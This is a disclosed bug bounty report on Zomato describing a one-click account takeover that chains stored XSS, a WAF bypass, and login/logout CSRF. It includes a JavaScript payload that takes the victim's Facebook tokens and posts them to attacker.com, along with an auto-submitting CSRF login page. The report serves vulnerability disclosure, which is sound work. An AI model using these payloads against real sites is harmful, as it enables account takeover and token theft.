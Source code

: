 # Self-Stored XSS - Chained with login/logout CSRF

## Report Details
- **Report ID**: 632017
- **URL**: https://hackerone.com/reports/632017
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-29T10:19:54.984Z
- **Disclosed**: 2019-07-03T11:02:19.848Z

## Reporter
- **Username**: madguyyy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
> NOTE! This report explains taking over an account in a single click by chaining stored XSS, WAF bypass, login and logout CSRF.

**Summary:** Attacker can takeover someone's account by stealing their facebook / google login tokens chaining multiple vulnerabilities.

**Description:** Attacker leaves a review on restaurant's page with XSS payload. Which is triggered when attacker tries to edit the review. By chaining multiple bugs, a webpage is crafted that will make victim logout of his account, login to attacker's account, redirects to XSS review page. Victim's facebook / google tokens are sent to attacker when victim clicks on edit button.

**Platform(s) Affected:** Website

## Steps To Reproduce:

**Request:**
Vulnerable parameter: **`with_tags_data`**

Method: `POST`
URL: `https://www.zomato.com/php/submitReview`
Parameters:
```
review=140 characters long review&
review_db=140 characters long review&
with_tags_data=<script>prompt(0,document.domain)</script>&
res_id=19132208&
city_id=11333&
rating=5&
is_edit=0&
review_id=0&
save_image=1&
instagram_images_to_update=[]&
instagram_json_data={"data":[]}&
uploaded_images_json=[]&
share_to_fb=false&
share_to_tw=false&
snippet=restaurant-review&
web_source=default&
csrf_token=2acad4ba08d4000000000007923a25d&
external_url=
```
**Click on `Edit` button. It will trigger prompt box**


### _Write review with XSS payload_
Use the following JavaScript payload and add it in **with_tags_data** parameter.
This code, when executed, will get Facebook authentication tokens of victim and send to attacker's server. Code can be improved to get Google authentication tokens as well. Code can be improved to get token with extra permissions like getting Google's contact list. In PoC video I have used minified version of this script
```html
<script>
// load fb js-sdk
(function(d, s, id){
      var js, fjs = d.getElementsByTagName(s)[0];
      if (d.getElementById(id)) {return;}
      js = d.createElement(s); js.id = id;
      js.src = "//connect.facebook.net/en_US/sdk.js";
      fjs.parentNode.insertBefore(js, fjs);
    }(document, 'script', 'facebook-jssdk'));

window.fbAsyncInit = function() {
      FB.init({
        appId      : '288523881080', // zomato fb app id
        xfbml      : true,
        version    : 'v3.1'
      });

//get auth response ( accessToken and signedRequest )
FB.login(function(){
	$.post('https://attacker.com/tokens.php',FB.getAuthResponse())}); // send token and signed_request to attacker
	document.location.href = 'https://www.zomato.com/logout'; // logout from victims's account
 }
</script>
```

### _Crafting auto login page_
1. Intercept HTTP requests and login with facebook
2. Create an HTML form to mimic request on `https://www.zomato.com/php/asyncLogin.php`
3. Replace link in last line of  `script` code with link to review with XSS payload.

```html
<form target="attackerTokens" method="post" action="https://www.zomato.com/php/asyncLogin.php?access_token=██████">
	<input name='authResponse[accessToken]' value='█████'>
	<input name='authResponse[userID]' value='███'>
	<input name='authResponse[expiresIn]' value='5073'>
	<input name='authResponse[signedRequest]' value='████'>
	<input name='authResponse[reauthorize_required_in]' value='7774406'>
	<input name='authResponse[data_access_expiration_time]' value='1569568133'>
	<input type=submit>
</form>
<iframe name="attackerTokens"></iframe>

<!-- logout current session -->
<img src="https://www.zomato.com/logout">
<script>
setTimeout(function(){ document.forms[0].submit(); }, 1500); // login attackers account
setTimeout(function(){ window.location.href='http://zoma.to/link_to_review'; }, 4000); // redirect to XSS payload page
</script>
```

**What does this page do?**
* This page will logout victim if already logged in. See `img` tag.
* After that, it will submit the login form and attacker's account be logged in on victim's computer.
* After login, it will redirect to review page with XSS payload. 
* Once victim click on `Edit` button, XSS will trigger and get victim's facebook tokens and send it to attacker's server.
* Attacker is capable of using these token to login to victim's account.

### _Bugs Chained_
1. CSRF is not working on logout URL
2. CSRF is not working on login URL
3. WAF is not working when javascript code is sent in `with_tags_data` parameter
4. `with_tags_data` is vulnerable to Stored XSS.

> Fact: Facebook login tokens are by default valid for an hour. But attacker can run a script on server to get fresh tokens every minute, which he can place into crafted HTML.

> Note: No real restaurant pages were harmed in PoC video. I replaced `res_id` with the restaurant I added.
> In PoC, **Techboy** is attacker and **Sukhmeet** is victim.

## Impact

One click can make someone lose his account.

## Attachments
- attacker-setup.webm
- victim-hacked.webm
